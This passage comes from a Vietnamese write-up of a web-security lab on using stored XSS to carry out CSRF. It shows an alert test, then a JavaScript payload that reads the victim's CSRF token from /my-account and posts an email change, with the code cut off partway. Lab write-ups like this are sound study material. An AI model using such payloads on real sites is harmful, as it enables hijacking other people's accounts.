 Login vào user admin để hoàn thành lab

---

### **Exploiting XSS to perform CSRF**

Thử gửi bình luận `<script>alert(1)</script>`, thấy `alert(1)` đã được thực thi → website không có phương thức gì để chống XSS

![Untitled](writeup_media/Untitled%2037.png)

Craft được payload để lấy CSRF token trong trang `/my-account` của victim và gửi request đổi email

```html
<script>
    // get CSRF token
    xhr = new XMLHttpRequest();
    xhr.open("GET", "/my-account", false);
    xhr.send();
    resp = xhr.responseText
    myRegexp = /<input required type="hidden" name="csrf" value="(.*)">/;
    csrf = myRegexp.exec(resp)[1];
    console.log(csrf);

    // post change email request
    fetch("/my-account/change-email", {
        method: 'POST',
        mode:'no-cors',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: 'email=a%40a.a&csrf=' + csrf
```